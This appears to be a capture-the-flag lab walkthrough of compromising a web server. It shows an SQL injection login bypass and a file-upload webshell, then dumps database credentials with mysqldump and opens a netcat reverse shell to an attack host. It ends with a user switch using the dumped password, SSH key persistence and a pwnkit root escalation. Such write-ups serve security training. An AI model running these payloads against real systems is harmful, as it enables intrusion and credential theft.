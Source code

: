 # SQLi
In the username field /login.php I found that it is susceptible to SQLi I used the following payload
```SQL
admin' OR '1'='1
```
![[Pasted image 20240427134230.png]]

# File Upload
The upload functionality is vulnerable to a file upload attack. Below is the request in burp with the modified payload. The website seemed to check the first line of the image metadata
![[Pasted image 20240427144155.png]]
![[Pasted image 20240427144212.png]]

I then used the phpbash.php shell to get a nice-ish shell: https://github.com/Arrexel/phpbash/blob/master/phpbash.php
![[Pasted image 20240427144749.png]]

# db.php5
Found an interesting file 
```php
class Database
{
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

What is interesting is that the username was also found in the /etc/passwd file:
```shell
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
```
Going to check out if the ssh password is the same.  Would not let me login going to need public key

# Mysqldump

Nothing worked with those creds and I could not connect to mysql on the webshell but the mysqldump binary is there let us try that.
```shell
mysqldump -u theseus -piamkingtheseus --databases Magic
```

```
-- MySQL dump 10.13 Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost Database: Magic
-- ------------------------------------------------------
-- Server version 5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
`id` int(6) NOT NULL AUTO_INCREMENT,
`username` varchar(50) NOT NULL,
`password` varchar(100) NOT NULL,
PRIMARY KEY (`id`),
UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

# Reverse Shell
Since I cannot ssh in as theseus I am going to try ```su theseus``` but I need an actual terminal so I uploaded the nc binary and executed the rev shell payload 
```
nc 10.10.14.12 8001 -e /bin/bash
```
and got a shell on my attack host
![[Pasted image 20240427154916.png]]
## Stabilizing the shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm


```

# Theseus
I was able to upgrade to the Theseus user by using the password from the database dump
```shell
www-data@magic:/var/www/Magic/images/uploads$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic/images/uploads$ 

```
## Generating ssh persistence
```shell
ssh-keygen -t rsa
```

# Root access
I just ran the pwnkit exploit
